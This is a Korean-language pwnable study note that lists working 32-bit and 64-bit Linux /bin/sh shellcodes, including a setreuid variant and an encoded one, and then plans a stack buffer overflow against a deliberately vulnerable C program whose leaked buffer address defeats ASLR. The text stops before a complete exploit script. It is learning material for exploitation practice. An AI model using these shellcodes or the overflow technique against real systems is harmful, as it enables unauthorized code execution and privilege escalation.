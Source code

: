 - 41 Bytes Shell Code   (setreuid(geteuid(), getreuid()) 포함)
`\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80`

- 48 Bytes Shell Code  (\x2f가 없는 쉘코드)
`\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81`

 
## 64bit shellcode
- 23 Bytes Shell Code (기본 쉘코드)
`\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05`

x64
- 31 Bytes Shell Code
`\x48\x31\xff\x48\x31\xf6\x48\x31\xd2\x48\x31\xc0\x50\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x89\xe7\xb0\x3b\x0f\x05`


위의 쉘코드 와 pwntool을 이용하여 아래의 바이너리를 exploit할 수 있음
```c
#include <stdio.h>

int main(void){
    setvbuf(stdin, 0, 2, 0);
    setvbuf(stdout, 0, 2, 0);
    char buf[100];

    printf("%p", buf);
    read(0, buf, 200);

    return 0;
}
```

살펴보면, 버퍼는 크기는 100바이트지만, 실제로 입력받는 값은 200바이트라 버퍼오버플로우 취약점이 발생함 이를 이용하여 
`버퍼 + SFP + RET`
의 구조를
`쉘코드 + 쓰레기값 + 쉘코드 시작 위치`
로 공격할 계획임
하지만 한 가지 고려해야할 점이 있는데, ASLR이 적용되어 있어서 주소들이 램덤하게 배치되어 있음
따라서 공격할 때 쉘코드의 위치를 특정하기가 어려운데,
`printf("%p", buf);` 에서 buf의 시작 위치를 알려주기 때문에 pwntool을 이용해 동적으로 주소를 얻어와 이용할 수 있음

먼저 `file` 명령어를 통해 해당 바이너리의 아키텍쳐를 확인함 
32비트 아키텍쳐, 인텔, SYSV, dynamic link 등등의 정보를 알 수 있음
```sh
┌──(foo1㉿main-server)-[~/Desktop/kknock/Pwnable/shellcode_ex/shellcode_ex]
└─$ file test 
test: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=e7ace1344a5a4c5b4d404cd4d2b238c9287366f8, for GNU/Linux 3.2.0, not stripped
```

해당 아키텍처에 맞는 32비트 아키텍쳐 전용 25바이트 기본 쉘코드를 사용
`\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80`
